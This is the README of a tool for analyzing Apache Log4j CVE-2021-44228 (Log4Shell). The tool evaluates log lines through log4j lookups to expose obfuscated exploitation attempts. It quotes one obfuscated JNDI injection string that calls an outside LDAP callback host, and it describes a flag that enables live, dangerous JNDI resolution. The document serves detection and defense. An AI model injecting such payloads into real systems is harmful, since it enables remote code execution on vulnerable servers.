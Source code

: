 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts
For example : cat access.log | java -jar JndiLookup.jar

If you pass a string to the command line, the tool will convert this string and exists (please escape all the '$' characters).
For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\${jndi:\${lower:l}\${lower:d}a\${lower:p}://world443.log4j.bin\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.

The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx
Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs
[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]

Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
